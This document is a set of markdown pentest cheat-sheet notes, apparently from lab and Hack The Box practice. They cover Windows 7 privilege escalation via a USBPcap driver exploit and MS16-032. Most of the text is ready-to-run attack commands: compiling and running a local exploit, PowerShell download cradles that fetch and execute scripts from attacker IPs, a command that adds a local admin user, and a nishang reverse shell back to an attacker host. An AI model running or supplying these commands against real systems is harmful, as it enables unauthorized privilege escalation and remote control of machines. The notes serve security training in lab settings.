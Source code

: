 #### win7-USBPcap
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
System Type: X86-based PC

driverquery /v | findstr "USBPcap"

searchsploit USBPcap
type "c:\program files\USBPcap\USBPcap.inf" //查看版本、信息

gcc xx.c -o exploit.exe

whoami
exploit.exe
whoami
```

#### MS16-032
[lab-bethany],[htb-optimum]

关于32/64 bit shell run 64bit exploit
> https://www.youtube.com/watch?v=kWTnVBIpNsE
> https://spencerdodd.github.io/2017/07/20/WOW64/
> https://0xdf.gitlab.io/2021/03/17/htb-optimum.html

||32 bit folder|64 bit folder|
|:---|:---|:---|
|32 bit session|C:\Windows\system32\|C:\Windows\systemNative\|
|64 bit session|c:\windows\sysWoW64\|C:\Windows\system32\|

```
# check shell
[Environment]::Is64BitProcess

#-from windows-kernel-exploits, add user
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.128/Powershell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user 2 Admin123gT /add'"

# exploit to reverse shell with nishang
# modify Invoke-MS16032, add to bottom
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.119.196/shell.ps1')"

# modify Invoke-PowerShellTcp.ps1, add to bottom
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.196 -Port 1338

# trigger
c:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/Invoke-MS16032.ps1')
```

